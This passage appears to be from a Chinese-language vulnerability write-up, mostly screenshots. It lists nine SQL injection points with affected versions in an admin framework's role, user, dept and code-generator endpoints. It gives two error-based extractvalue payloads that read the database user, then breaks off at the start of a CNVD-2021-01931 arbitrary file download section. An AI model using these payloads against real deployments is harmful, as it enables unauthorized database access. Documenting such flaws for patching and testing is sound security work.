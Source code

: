 ![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamE8g7a08iaspnPqoq2H7ah1bvmmFGRena27guEMTef9OjWPVhUCDVdDw/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
进入role查看信息  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraam4aAtajibgYd9o6QmiaLYH7SapwHUFfhfxVxp1maicmpl3EZJia6wpPIuQg/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
查看功能  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamRlUt63GaHaY838IpA7ELcUtC5lyJOCqOiarIELpU9pudiacktN1bY9jw/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
params  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamLLRrPXuQPT9icMcMDAHj0WdicNVhAV1YFDuIEMnKKw2cQZAlYSOloMnA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamxVWhINgc7qkn4XIpQdJqoUmBASgpNcMIR25a0lF0qFM129lnsxSAPQ/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
根据路径  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamRVaGPKcN2QLwlWUHbtuPxJQtv1SgHo1epEmFogEOZWrN5m6EN6jZ1g/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
  
执行代码  
```
&params[dataScope]=and extractvalue(1,concat(0x7e,(select user()),0x7e))
```  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTr2zk5Fiaa6HebHYoeZoraamkQxOCWRTvOpPu4DFDdyzhzkFhhJlticgX7ArT9ArB8tk72GSVMPYiciaA/640?wx_fmt=png&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
### 注入点2 /role/export （<V-4.6.2）  
### 注入点3 /user/list （<V-4.6.2）  
### 注入点4 /user/list （<V-4.6.2）  
### 注入点5 /dept/list （<V-4.6.2）  
### 注入点6 /role/authUser/allocatedList （<V-4.6.2）  
### 注入点7 /role/authUser/unallocatedList  
### 注入点8 /dept/edit （<V-4.6.2）  
```
DeptName=xxxxxxxxxxx&DeptId=100&ParentId=555&Status=0&OrderNum=1&ancestors=0)or(extractvalue(1,concat(0,(select user()))));#
```  
### 注入点9 /tool/gen/createTable（V-4.7.1-V-4.7.5）  
  
参考  
  
https://blog.takake.com/posts/7219/#2-3-10-%E6%80%BB%E7%BB%93  
# 0x04 CNVD-2021-01931任意文件下载  
#### 漏洞简介  
  
登录后台后可以读取服务器上的任意文件。  
#### 影响版本：  
  